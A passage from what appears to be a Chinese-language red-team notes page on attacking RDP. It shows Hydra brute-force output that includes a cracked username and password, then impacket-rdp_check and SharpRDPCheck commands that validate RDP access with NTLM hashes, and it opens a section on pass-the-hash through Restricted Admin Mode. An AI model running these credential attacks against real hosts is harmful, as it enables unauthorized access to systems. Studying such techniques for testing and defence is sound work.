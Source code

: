 ```console
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 3 servers, overall 12 tasks, 242 login tries, ~61 tries per task
[DATA] attacking rdp://(3 targets):3389/

[3389][rdp] host: 172.22.14.46   login: zhangshuai   password: wSbEajHzZs

[STATUS] attack finished for 172.22.14.46 (valid pair found)
[ERROR] child 10 sent nonsense data, killing and restarting it!
[STATUS] 581.00 tries/min, 581 tries in 00:01h, 145 to do in 00:01h, 8 active
3 of 3 targets successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-04 23:23:56
```

> 注：kali 内置的 [medusa](https://github.com/jmk-foofus/medusa) 不包含 rdp.mod 模块（medusa -d 查看当前所有模块），如果想要使用 medusa 来爆破 rdp 需要自行编译（超麻烦的🫤）。

[impacket-rdp_check](https://github.com/fortra/impacket/blob/master/examples/rdp_check.py) 支持使用哈希来确定目标机器是否允许该用户使用 RDP 进行登录：

```console
root@kali:~# impacket-rdp_check domain.com/administrator@10.10.10.11 -hashes :618B18AD4171A53695DD997AB02D55C4
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Access Granted
```

[SharpRDPCheck](https://github.com/3gstudent/SharpRDPCheck/) 也实现了这一效果：

```console
PS C:\Windows\System32> .\SharpRDPCheck.exe 192.168.70.128 3389 plaintext test test
[+] Valid:test  test

PS C:\Windows\System32> .\SharpRDPCheck.exe 192.168.70.128 3389 ntlmhash test 0cb6948805f797bf2a82807973b89537
[+] Valid:test  0cb6948805f797bf2a82807973b89537
```

## Pass-The-Hash with RDP

### Restricted Admin Mode

[Restricted Admin Mode](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn408190(v=ws.11)#restricted-admin-mode-for-remote-desktop-connection>)（受限管理模式）提供了一种交互式登录远程主机服务器的方法，而无需将您的凭据传输到服务器。如果服务器遭到破坏，这可以防止您的凭据在初始连接过程中被窃取。

受限管理员更改了远程桌面协议，使其使用网络登录而不是交互式登录进行身份验证。有了这种保护，建立 RDP 会话将不需要提供关联的密码；相反用户的 NTLM Hash 或 Kerberos 票证将用于身份验证。

**受限管理员模式只对管理员组成员有效。如果获取到的用户只属于远程桌面用户组，那么是无法通过 hash 登录的。**

> 注：使用 NTLM hash 进行 RDP 登录，客户端和服务器端都需要开启 `Restricted Admin Mode`。

---
